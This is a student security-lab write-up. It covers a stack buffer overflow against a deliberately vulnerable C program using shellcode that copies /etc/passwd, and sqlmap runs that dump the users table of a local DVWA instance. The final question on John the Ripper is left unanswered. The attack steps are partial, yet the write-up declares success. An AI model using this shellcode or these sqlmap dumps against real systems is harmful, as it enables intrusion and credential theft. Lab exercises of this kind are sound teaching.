 # Lab #1,22110009, Le Cong Bao, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:
  #### step 1: Create a vulnerable c program
  ``` 
    seed@567028f4b4b0:~/seclabs/bof$ nano vulnerable.c 
  ```
  ![image](https://github.com/user-attachments/assets/227b7284-5d61-466c-a766-f56c8ba2579b)

  #### step 2: Compile the vulnerable c program
  ```bash
     gcc -o vulnerable vulnerable.c -fno-stack-protector -z execstack
  ```
  
  - -fno-stack-protector: Disables stack protection, making the program vulnerable to buffer overflow attacks.
  - -z execstack: Allows execution of code on the stack, enabling exploitation through injected shellcode.
  #### step 3: Build an Assemply payload
  ``` 
    seed@567028f4b4b0:~/seclabs/bof$ nano shellcode.asm
  ```
  ![image](https://github.com/user-attachments/assets/4f8b0e7d-a38a-4098-bab7-025926764e0b)

  #### step 4: Compile the Asssemply code
  ```bash
     nasm -f elf32 -o shellcode.o shellcode.asm
     ld -m elf_i386 -o shellcode shellcode.o
  ```
  #### step 5: Find the address of the shellcode
  ```bash
     gdb ./vulnerable
  ```
  - in `gdb` set a breakpoint at `main ` run the program with a dummy argument to obtain the address of your shellcode.
  ```bash
     break main
     run $(python -c "print('A'*72)")
     p &buffer
  ```
    
**Conclusion**: The execution of the vulnerable program with the crafted input successfully copies the `/etc/passwd` file to `/tmp/pwfile`. The shellcode executed as intended, demonstrating the buffer overflow attack effectively.

# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
1. Pull DVWA Docker image
   ```bash
      docker pull vulnerables/web-dvwa
      docker run -d -p 80:80 vulnerables/web-dvwa
   ```
   ![image](https://github.com/user-attachments/assets/c89ed07c-5616-4614-8b55-8f4a27d30e8a)
2. Access DVWA with a web browser and go to: http://localhost Log in with the default user
   ![image](https://github.com/user-attachments/assets/c4c3bba3-24e9-4a2b-a9c3-660a20aeed61)
   User: admin
   Password: password
   ![2](https://github.com/user-attachments/assets/d606eac2-2999-4370-b19c-b959cda33fff)
3. Install SQLMap in WSL
   ```bash
      wsl
      sudo apt install sqlmap
   ```
4. Find the website url to attack
   ![image](https://github.com/user-attachments/assets/aaad26f0-4f4e-49f8-8910-bc69b19387f2)
   enter random to return http://localhost/vulnerabilities/sqli/?id=1
5. Get information from the database
   ```bash
      sqlmap -u "http://localhost:8080/vulnerabilities/sqli" --cookie="PHPSESSID=ve43k50u0t2qcfnfdhqkmga390; security=medium " --data="id=1&Submit=Submit" --dbs
   ```
   ![image](https://github.com/user-attachments/assets/71f7e9eb-e266-44a5-841d-d9e0d713a32f)

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
- Choose DVWA database and use sqlmap to get table
```bash
   sqlmap -u "http://localhost/vulnerabilities/sqli" --cookie="PHPSESSID=ve43k50u0t2qcfnfdhqkmga390; security=medium " --data="id=1&Submit=Submit" --batch -D dvwa --tables
```
![image](https://github.com/user-attachments/assets/c614bd0a-1abb-48a3-af4e-a7dc054233a8)

- Choice Database is Users and use sqlmap to get users information
  ```bash
     sqlmap -u "http://localhost/vulnerabilities/sqli" --cookie="ve43k50u0t2qcfnfdhqkmga390; security=medium " --data="id=1&Submit=Submit" --batch -D dvwa -T users --dump
  ```
  ![image](https://github.com/user-attachments/assets/530a460d-f677-4106-9d1c-dd01b55b6b92)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
